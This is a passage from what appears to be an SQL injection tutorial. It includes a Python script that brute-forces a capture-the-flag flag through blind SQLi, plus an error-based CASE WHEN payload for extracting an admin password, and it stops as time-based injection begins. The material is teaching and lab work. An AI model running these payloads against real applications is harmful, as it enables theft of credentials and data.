 `findflag.py`
```python
from requests import *
from bs4 import BeautifulSoup
from string import digits, ascii_uppercase, ascii_lowercase

URL = "https://penguin.chall.lac.tf/"
s = Session()
payloadStart = "' OR name SIMILAR TO 'lactf{"
payloadEnd = "______________________________________"
i = 0

while True:
    payloadEnd = payloadEnd[:-1]
    for c in digits + ascii_lowercase + ascii_uppercase + "!-@":
        payload = payloadStart + c + payloadEnd + "}"
        r = s.post(URL + "submit", data={"username": payload})
        soup = BeautifulSoup(r.text, "html.parser")
        if "We found a penguin" in soup.get_text():
            print("worked: ", payload)
            payloadStart += c
            break
        else:
            print("failed: ", payload)
    else:
        print("end: ", payload)
        break
```

### Error-based SQLi
If we don't have any output available, we still have alternatives. The first and simplest one is error-based SQLi. If the website returns a log or feedback in case of an error...

![SQL error](https://i.stack.imgur.com/9LEDu.png)

...we can obtain information as if we were executing a blind SQLi.

#### Conditional Statements - CASE WHEN
While in the previous login example we had feedback, for which we logged in if we guessed the character correctly, in this case, we force the DBMS to throw an error when our query satisfies the condition:

`Christian_C' UNION SELECT CASE WHEN (username='admin' AND password LIKE 'a%') THEN 1/0 ELSE 1 END FROM users -- `. If the first letter of the admin's password is `a`, the operation 1/0 will be executed, causing the DBMS to throw an error, which will be shown in the output. Again, be careful about variations between different DBMSs: the syntax might be different, and in some cases, division might not throw an error.

### Time-based SQLi
If both output and errors are not available, you can perform a time-based SQLi, where you rely on the server's response time. In these cases, when the condition is satisfied, you delay the server's response. The payload is very similar to that of error-based SQLi:
